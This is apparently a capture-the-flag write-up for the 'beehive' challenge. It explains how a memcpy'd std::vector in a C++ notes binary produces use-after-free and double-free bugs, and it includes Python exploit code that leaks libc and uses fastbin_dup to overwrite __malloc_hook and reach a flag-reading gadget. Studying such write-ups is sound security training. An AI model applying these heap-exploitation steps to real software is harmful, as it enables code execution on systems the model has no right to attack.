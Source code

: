 ### beehive write-up 
###### m4drat - August 25, 2019
__table of contents__:
- [info](#info)
- [reversing](#reversing)
- [vulnerability](#vulnerability)
- [exploitation](#exploitation)
- [tldr](#tldr)

#### info
checksec output:  
![checksec](https://i.imgur.com/g84Ugwp.png)  
1. Binary is 64-bit с++ executable dynamically linked at least with libc
2. binary uses full `RelRO` (relocations read only), so we cant simply overwrite .got entry and jump to one-gadget
3. stack canaries are here too, so we cant use stack-based attacks (without memory leaks)
4. nx-bit enabled, so we cant write our shellcode to rw memory location an later jump to it
5. all we have is that program doesn't have `PIE`, so loaded executable base address is always the same

#### reversing
Binary has some basic (for most heap-related tasks) functionality:
![functionality](https://i.imgur.com/1dgRdwy.png)  
In this particular task it's hard to find bugs by hand so lets go to actual reversing part. After restoring classes such as Note, Day, Calender we can start investigating app logic.  
- `Day` object default constructor:
![day_constructor](https://i.imgur.com/0Ojdt3C.png)  
Its simply creates `std::vector` with `Note *`, and then reserves location for at least `0xd` elements (remember this moment, it will come in handy later). 
- `copy_notes` option:  
![copy_notes](https://i.imgur.com/00VMx4l.png?1)
The most interesting part is in here. First of all it extracts `currentMonth` and `currentDay`, then the same thing happens with the second date. After it `std::vector<Note *>day_notes` ptr for `currentDay` is assigned to `day_notes_current`, same thing happens for the second day, `std::vector<Note *>day_notes` ptr for `newDay` is assigned to `day_notes_new`. And here is, where vuln is introduced.

#### exploitation
So the bug is that vector structures gets copied using `memcpy()` function instead of default copy constructor that can be used through assign operator, what eventually leads to `UAF` and `double-free` vulnerabilities. Lets look at memory layout after using `copy_notes` function.  
![vectors_memory](https://i.imgur.com/O7r6iaw.png)  
As we can see both `std::vector <Note *>` references in `Day` objects are now pointing to the same memory location. And that's the problem. By default `std::vector<>` is a dynamic array that expands as needed, if it expands its must move content to a new memory location and release the old one. So when we make the vector expand (for example using `push_back` in `create_note` function), it will update pointers in `Day` object that is currently selected, but not in the second one, and we will get `UAF`, due to the fact that the second `Day` pointers remained the same.  
With this knowledge we can start creating two primitives: nearly arbitrary `write-what-where`, and `arbitrary-read`.  
Lets start with `arbitrary read`. Easiest way to create this primitive is to use `use-after-free` vulnerability. First of all we must create vector at 1/1, then we will extend it to 13 elements, after it we must copy it to another date (1/3), and later extend it to 14 elements, so location where was 13 pointers is going to be freed in first day. Then we need to free another vector to bypass `fasttop`. After we will select 1/3 and add to this vector one new note with `content_size` = 100, and `content` = `p64(desired_addr) * 12`, so this `note_content` will take memory region, where freed vector content was. And now, when we will call `print_notes` it will print data based on our fake `Note` pointers.  
That's good, but because it's vector of pointers to objects we need to somehow insert pointer to pointer to our location, that we want to read. Fortunately we don't have to do anything, because in the end of reallocated vector will be pointer to heap chunk, with content that we can control.  
Faked `std::vector<Note *>` content (last element is at `0xa84d50`, and that's the fake `Note*` where we can change content, to satisfy double-pointer dereference requirment):  
![FakedArrayContent](https://i.imgur.com/SWgBbpI.png)  
So everything that we need to do now is to change value at controlled location to address we want to read:  
``` python
def generate_vec(cnt, content):
    for i in range(cnt):
        create_note('AAAAAAAA' * 15, content * 12, 100) # spray signal_got on heap to get leak

select_date(1, 1)
generate_vec(13, p64(signal_got)) # controlled location, here will point pointer in the end of faked vector
copy_notes(1, 3)
generate_vec(1, 'PPPPPPPP')       # free first vector

select_date(1, 2)
generate_vec(14, p64(signal_got)) # free second vector to bypass "double free or corruption (fasttop)" + sparay objects with .got['signal'] ptr to leak libc

select_date(1, 3)
create_note('AAAAAAAA', 'DDDDDDDD' * 17, 140)    # double-free first vector + get leak

leak = u64(view_notes()[560:560+6] + '\x00\x00') # read last note name to get leak
```
Now, when we leaked all important addresses we can start creating write primitive. For this we will use `fastbin_dup`:  
First of all we must allocate vector of size 13 (at 2/1), then copy it to (2/2), free it adding new note, then free intermidiate vector (at 2/3) to bypass `faststop`, and later select (2/3) and add new note to double-free it. 
``` python
def generate_vec_param(cnt, name, content_size, content):
    for i in range(cnt):
        create_note(name, content, content_size)

def double_free_fast():
    # first day
    select_date(2, 1)
    generate_vec_param(13, 'AAAAAAAA', 600, 'BBBBBBBB')
    copy_notes(2, 2)
    create_note('NNNN' * 31, 'OOOO' * 24, 600)

    # second day
    select_date(2, 3)
    generate_vec_param(14, 'AAAAAAAA', 600, 'BBBBBBBB')

    # third day
    select_date(2, 2)
    create_note('NNNN' * 31, 'OOOO' * 24, 600)

def exploit_df_fast(chunk_to_get, size):
    select_date(2, 4)
    create_note('AAAAAAAA', p64(chunk_to_get) + 'A' * 38, size)
    create_note('ZZZZZZZZ' * 15, 'MMMMMMMM', size)
    create_note('XXXXXXXX' * 15, 'KKKKKKKK', size)

double_free_fast()
exploit_df_fast(0xdeadbeef, 102)
```
Right now we met almost all the conditions to return arbitrary pointer:  
![bins](https://i.imgur.com/kBt2ejk.png)  
But we cant return fully arbitrary pointer, because there is some integrety checks inside malloc. For example: 
``` c
if (__glibc_likely (victim != NULL))
{
    size_t victim_idx = fastbin_index (chunksize (victim));
    if (__builtin_expect (victim_idx != idx, 0))
        malloc_printerr ("malloc(): memory corruption (fast)");
    check_remalloced_chunk (av, victim, nb);
...
```
This code will check if chunk size, that we are going to return is in specific fastbin range (for this example in range `0x70 <= x <= 0x7f`). So we need to find memory region, that can be represented like `malloc_chunk`, and which size can pass `fastbin_index` check. Okay, we can use only specificly layouted memory. But what we want to write and where? In given binary we can find interesting gadget, that calls `system("/bin/cat /service/flag.txt")`, so we somehow want to redirect execution to this gadget. We can make this by rewriting `__malloc_hook` / `__free_hook` in already leaked libc, but we still need to find suitable chunk near this location. Here i will use pwndbg:  
![fake_chunks](https://i.imgur.com/2MiUDZ1.png)  
It found 2 possible fake_chunks near `malloc_hook`. I will use second one:  
![fake_chunk](https://i.imgur.com/cMdPtIH.png)  
So now, when we will call `new` with appropriate size it will return this fakechunk near `malloc_hook`, and now if we will write something big to this chunk we will rewrite `__malloc_hook`:  
![crash](https://i.imgur.com/cDxCvE7.png?1)  
Got it! Now you just need to change 'A's with gadget address and get flag:  
![flag](https://i.imgur.com/k2d2E6M.png?1)

#### tldr
1. get mem-leak using `UAF`
2. find fake_chunk near `__malloc_hook`
3. return this fake chunk using `fastbin_dup`
4. rewrite `__malloc_hook` with gadget address
5. get flag 

links:  
- [pwndbg find_fake_fastbin module](https://veritas501.space/2018/03/27/调教pwndbg/)  
- [how2heap](https://github.com/shellphish/how2heap/)  
- [phrack](http://phrack.org/issues/61/6.html)  
- [MallocMaleficarum](https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt)  
- [heap exploitation](https://heap-exploitation.dhavalkapil.com)  

<!--
 The first added note will take previously released by vector memory, so now we can control vector content for 1/3
 First content chunk will take already freed by 1 vector location, so we can control content of this vector content field, and later view it using print_notes at 1/3 
-->
